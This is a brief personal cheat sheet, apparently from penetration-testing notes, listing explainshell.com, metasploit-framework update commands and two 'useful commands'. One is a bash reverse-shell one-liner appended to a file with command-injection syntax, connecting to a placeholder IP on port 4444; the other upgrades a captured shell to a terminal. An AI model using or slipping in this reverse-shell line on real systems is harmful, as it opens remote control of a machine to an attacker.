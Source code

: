 - Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null


- How to update metasploit-framework

sudo apt update

sudo apt install metasploit-framework 
sudo apt install gem
sudo gem install bundler
sudo msfdb reinit
sudo msfconsole
